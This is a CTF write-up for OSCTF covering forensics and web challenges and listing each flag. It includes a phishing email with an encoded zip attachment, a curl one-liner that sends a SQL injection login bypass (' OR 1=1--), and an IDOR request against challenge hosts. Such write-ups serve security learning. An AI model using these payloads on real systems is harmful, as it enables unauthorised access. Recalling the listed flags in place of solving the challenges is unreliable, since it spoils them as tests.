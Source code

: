 ```yaml
---
title: OSCTF - Writeup
time: 2024-06-24 12:00:00
categories: [forensics, web]
tags: [osctf]
image: /assets/posts/osctf/icon.png
---
```


A writeup for OSCTF.

# Forensics

## The Lost Image Mystery
Flag: `OSCTF{W0ah_F1l3_h34D3r5}`

In the bustling city of Cyberville, a crucial image file has been corrupted, and it's up to you, a budding digital forensics expert, to recover it. The file appears to be damaged, can you recover the contents of the file?

```
$ xxd image.png | head
00000000: d8e0 0049 4600 0101 0000 0100 0100 00ff  ...IF...........
00000010: e201 d849 4343 5f50 524f 4649 4c45 0001  ...ICC_PROFILE..
00000020: 0100 0001 c800 0000 0004 3000 006d 6e74  ..........0..mnt
00000030: 7252 4742 2058 595a 2007 e000 0100 0100  rRGB XYZ .......
00000040: 0000 0000 0061 6373 7000 0000 0000 0000  .....acsp.......
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0100 00f6 d600 0100 0000 00d3  ................
00000070: 2d00 0000 0000 0000 0000 0000 0000 0000  -...............
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

## The Hidden Soundwave
Flag: `OSCTF{M3s54g3_1nt3Rc3p7eD}`

We've intercepted some signals which is allegedly transmitted by aliens...? Do aliens listen to Alan Walker? I don't know, it's up to you to understand but we are sure there's something hidden in this song and we need to decrypt it!

[insert photo]

## Mysterious Website Incident
Flag: `OSCTF{1_c4N_L0g!}`

In the heart of Cyber City, a renowned e-commerce website has reported suspicious activity on its servers. As a rookie digital investigator, you've been called in to uncover the truth behind this incident. Your journey begins with examining the server's records, searching for clues that could shed light on what transpired.

```
265 192.168.1.1 - - [14/Jun/2024:07:47:14 +0000] "DELETE /index.html HTTP/1.1" 404 1477 "http://test.com" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
266 192.168.1.2 - - [14/Jun/2024:07:47:14 +0000] "POST /submit_form HTTP/1.0" 200 459 "http://localhost" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
267 my_secret :D - - [14/Jun/2024:07:47:14 +0000] "GET https://drive.google.com/file/d/15IwD7QiSKtvmW7XG2gYkdnwW0bxXBgdj/view?usp=drive_link HTTP/1.0" 200 3625 "http://test.com" "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
268 192.168.1.2 - - [14/Jun/2024:07:47:14 +0000] "POST /robots.txt HTTP/1.1" 200 2385 "http://test.com" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
269 192.168.1.3 - - [14/Jun/2024:07:47:14 +0000] "GET /submit_form HTTP/1.1" 500 3247 "http://test.com" "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
```

```
https://drive.google.com/file/d/15IwD7QiSKtvmW7XG2gYkdnwW0bxXBgdj/view?usp=drive_link
```

## Cyber Heist Conspiracy
Flag: `OSCTF{Pr0_W1Th_PC4Ps}`

In the heart of Silicon City, rumors swirl about a sophisticated cyber heist orchestrated through covert network channels. As a novice cyber investigator, you've been tasked with analyzing a mysterious file recovered from the scene of the digital crime.

## Seele Vellorei
Flag: `OSCTF{V3l10n4_1s_Gr43t}`

Seele Vollerei is an orphaned girl in Cocolia’s Orphanage. But the tragic event in her past made that she was gone forever, until then she returned like a mysterious butterfly. How is this related to the challenge though? You figure out for youself ;)

```
$ unzip SeeleVollerei.docx
Archive:  SeeleVollerei.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
 extracting: word/media/image1.png
  inflating: word/theme/theme1.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml

$ grep -rioE "osctf{\w+}"
word/document.xml:OSCTF{V3l10n4_1s_Gr43t}
```

## FOR101
Flag: `OSCTF{JU5t_n0rmal_eXE1_f113_w1th_C2_1n51De}`

An employee of MDSV company received a lottery winning letter. Because of greed, that employee opened that email and as a result, the company's computer was attacked. Luckily, the SOC department was able to capture the disk image and blockade that employee's computer. Your task is to conduct investigation, analysis and retrieve the flag.

Challenge file: **https://drive.google.com/file/d/1PF9DFZoNhb61bs3k0kcuyFEe5U_kA7LR/view**

Navigating through directories, I found an interesting eml file. The file is located at **/Users/Administrator/Downloads/Outlook Files**.

```
$head -n 25 Notifications.eml
Content-Type: multipart/mixed; boundary="===============1582594319=="
MIME-Version: 1.0
From: mmb1234@example.com
To: maikanizumi@example.com
Subject: Credit Card For Free

--===============1582594319==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

You have won $10,000. I have sent you a credit card containing your bonus. Because this is a gift of great value, it will be kept confidential. Password is CreditsCardForFree
--===============1582594319==
Content-Type: application/octet-stream
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="CreditsCard.zip"

UEsDBBQACQBjAHqQ6Fgjz4wWgd0FAATrBQAOAAsAQ3JlZGl0czY5Lnhsc20BmQcAAQBBRQMIALCJ
haRRXhXXhdwy9Ql6IXQgIO4ovBCASOLtQUM0nDO2NjbgjTdHMrqMwlFb88f474QaR6UAZ8wLmO85
Mvn4RQUoXFP3ry4BGkRi1V8Tmf7baZeBJKYHC7EmLhqkWtzsduispUUr+9bSgLngwvZi3GTJVFrb
09Mq9xu2ke5U+OMEqpIOvxxIb7qvKCKrEQF2llS4Spa4iYGPzx25wbsdpU9Prvq6fvPJTF1K60zD
AEUAZZVZsxxQyE1e4WQHce5g3JgpV0X3e5l25bABVHjpMu+X851phm3QClEZqRTwQn4Q1vlbkaRm
hQPjON7U+A+vQfJL8fqOIVbpVgdD18IT0iU1cpoS6Cu5dTY6Ldra9SUu9TcVJO7qIE/PlqZsQil0
5E9rt7le+zjpaaBLorwPqTooFg+A/n0jJzlHLg0spqu6r90srYI/9NqiWvMDmYv5AY7dJYBk7/qm
```
We can see a message with the password and a long base64 code. Putting the code in CyberChef, it detected that the code is a PKZIP file. So I decoded the code and downloaded the file.

```
$ 7z x for101.zip -p 'CreditsCardForFree'

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=en_US.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 384585 bytes (376 KiB)

Extracting archive: for101.zip
--
Path = for101.zip
Type = zip
Physical Size = 384585


No files to process
Everything is Ok

Files: 0
Size:       0
Compressed: **384585**
```

# Web

## Introspection
Flag: `OSCTF{Cr4zY_In5P3c71On}`

Welcome to the Secret Agents Portal. Find the flag hidden in the secrets of the Universe!!!

```
$ curl -s http://34.16.207.52:5134/script.js | grep -oiE osctf{.+}
OSCTF{Cr4zY_In5P3c71On}
```

## Style Query Listing...?

Flag: `OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}`
pfft.. Listen, I've gained access to this login portal but I'm not able to log in. The admins are surely hiding something from the public, but... I don't understand what. Here take the link and be quiet, don't share it with anyone

```
$ curl -sL http://34.16.207.52:3635/login -d "username=admin&password=%27+OR+1%3D1--" | grep -oiE osctf{.+}
OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}
```

## Indoor WebApp
Flag: `OSCTF{1nd00r_M4dE_n0_5enS3}`

The production of this application has been completely indoor so that no corona virus spreads, but that's an old talk right?

```
$ curl -s http://34.16.207.52:2546/profile?user_id=2 | grep -oiE osctf{.+}
OSCTF{1nd00r_M4dE_n0_5enS3}
```
